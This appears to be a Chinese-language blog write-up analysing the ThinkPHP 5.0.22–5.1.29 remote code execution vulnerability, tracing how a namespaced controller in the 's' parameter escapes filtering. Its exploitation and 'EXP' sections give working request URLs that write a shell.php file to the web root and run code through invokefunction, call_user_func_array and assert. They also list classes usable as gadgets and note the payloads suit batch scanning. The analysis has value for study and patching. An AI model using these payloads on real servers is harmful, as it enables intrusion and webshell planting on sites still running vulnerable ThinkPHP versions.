 ## 0x01漏洞分析

我们在官方给的信息的位置下断点

thinkphp\library\think\route\dispatch\Module.php

![image-20210331102739426]([thinkphp]5.0.22~5.1.29--Rce/image-20210331102739426.png)

访问一下

![image-20210331102827598]([thinkphp]5.0.22~5.1.29--Rce/image-20210331102827598.png)

这里有一个exce方法,跟进controller方法

![image-20210331103019982]([thinkphp]5.0.22~5.1.29--Rce/image-20210331103019982.png)

继续跟进

![image-20210331103220373]([thinkphp]5.0.22~5.1.29--Rce/image-20210331103220373.png)

这里会返回我们带命名空间的完整类名。 模块->控制器->方法

```
这里我们需要注意的一点就是if的第一个分支,当存在\时,就会不进行一系列操作,直接返回

而命名空间恰好就是使用反斜杠来划分，结合parseModuleAndClass中的那一个判断代码：反斜杠是否存在，直接返回类名的操作。并没有做任何过滤操作
```

接下来的就懒得写了,COPY一下

不难想到是可以调用任意类的方法。

比如这样？

```
http://127.0.0.1/index.php/index/think\app/index
```

请求一下，发现报错了。

[![img]([thinkphp]5.0.22~5.1.29--Rce/20181211183110-e08539f8-fd2f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181211183110-e08539f8-fd2f-1.png)

what the fuck？ 我的反斜杠怎么变成了正斜杠了？而且这个控制器怎么获取的是Think？

猜测是浏览器的原因，用bp发包一样如此，那么还有没有其他方法可以获取到呢？

翻了一下tp的配置文件

[![img]([thinkphp]5.0.22~5.1.29--Rce/20181211183121-e6b2339e-fd2f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181211183121-e6b2339e-fd2f-1.png)

发现可以使用s来获取参数，那么我们就可以尝试这样请求

```
http://127.0.0.1/index.php?s=/index/think\app/index
```

成功实例化了App类，因为没有index 方法所以这里会报错。

[![img]([thinkphp]5.0.22~5.1.29--Rce/20181211183156-fb9cd476-fd2f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181211183156-fb9cd476-fd2f-1.png)
但已经验证了整个漏洞的原理。

> 控制器过滤不严，结合直接返回类名的代码操作，导致可以用命名空间的方式来调用任意类的任意方法。

形如：

```
http://127.0.0.1/index.php?s=/index/namespace\class/method
```

漏洞点找到了，那么接下来就是找利用点了。





这里介绍一下library/think文件,我们随便点开一个,可以发现文件开头有一个namespace

![image-20210331104300673]([thinkphp]5.0.22~5.1.29--Rce/image-20210331104300673.png)

其实think文件下的文件在这里都可以被随意调用

## 0x02 漏洞利用

tp 5.1.29 简单找了个写shell的方法，看到thinkphp\library\think\template\driver\File.php 文件

[![img]([thinkphp]5.0.22~5.1.29--Rce/20181211183322-2f02323e-fd30-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181211183322-2f02323e-fd30-1.png)
有一个完美的写shell方法。

```
http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
```

执行之后会在根目录下写入shell.php ，内容是输出phpinfo();

[![img]([thinkphp]5.0.22~5.1.29--Rce/20181211183347-3e361342-fd30-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181211183347-3e361342-fd30-1.png)

## 0x03EXP

5.1是下面这些：

```
think\Loader 
Composer\Autoload\ComposerStaticInit289837ff5d5ea8a00f5cc97a07c04561
think\Error 
think\Container
think\App 
think\Env 
think\Config 
think\Hook 
think\Facade
think\facade\Env
env
think\Db
think\Lang 
think\Request 
think\Log 
think\log\driver\File
think\facade\Route
route
think\Route 
think\route\Rule
think\route\RuleGroup
think\route\Domain
think\route\RuleItem
think\route\RuleName
think\route\Dispatch
think\route\dispatch\Url
think\route\dispatch\Module
think\Middleware
think\Cookie
think\View
think\view\driver\Think
think\Template
think\template\driver\File
think\Session
think\Debug
think\Cache
think\cache\Driver
think\cache\driver\File
```

5.0 的有：

```
think\Route
think\Config
think\Error
think\App
think\Request
think\Hook
think\Env
think\Lang
think\Log
think\Loader
```

两个版本公有的是：

```
think\Route 
think\Loader 
think\Error 
think\App 
think\Env 
think\Config 
think\Hook 
think\Lang 
think\Request 
think\Log
```

本想找出两个版本共有的利用类和方法，但由于类文件大多被重写了，所以没耐住性子一一去找（菜）

所以，payload为上述类的利用方法，是可以兼容windows和linux多个平台的，兼容多个平台有什么用呢？插件批量可以减少误判等，一条payload通用，一把梭多好。

比如:

5.1.x php版本>5.5

```
http://127.0.0.1/index.php?s=index/think\request/input?data[]=phpinfo()&filter=assert

http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=<?php%20phpinfo();?>
```

5.0.x php版本>=5.4

```
http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
```





参考链接:https://xz.aliyun.com/t/3570#toc-2